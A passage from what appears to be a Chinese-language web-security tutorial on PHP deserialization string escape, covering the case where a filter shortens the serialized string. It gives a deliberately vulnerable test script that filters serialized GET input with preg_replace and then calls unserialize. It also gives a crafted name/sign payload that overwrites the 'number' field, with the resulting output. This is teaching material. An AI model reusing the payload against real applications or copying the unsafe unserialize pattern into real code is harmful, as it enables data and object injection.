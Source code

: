 可以看到pass已经改为了hacker，成功逃逸。

## 二、替换之后导致序列化字符串变短

test的代码：

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = $_GET['name'];
$test['sign'] = $_GET['sign']; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo '<br>';
print("name:".$fake['name'].'<br>');
print("sign:".$fake['sign'].'<br>');
print("number:".$fake['number'].'<br>');
?>
output:(?name=whoami&sign=hello)
a:3:{s:4:"name";s:6:"whoami";s:4:"sign";s:5:"hello";s:6:"number";s:4:"2020";}
name:whoami
sign:hello
number:2020
```

接下来使用name和sign间接修改number的值：

payload:`name=testtesttesttesttesttest&sign=hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}`

```php
a:3:{s:4:"name";s:24:"";s:4:"sign";s:54:"hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}";s:6:"number";s:4:"2020";}
name:";s:4:"sign";s:54:"hello
sign:eval
number:2000
```

将test全部替换为空，这样就导致原来正确的`";s:4:"sign";s:54:"hello`变为了name，而后面构造的恶意字符串达到了替换的效果。

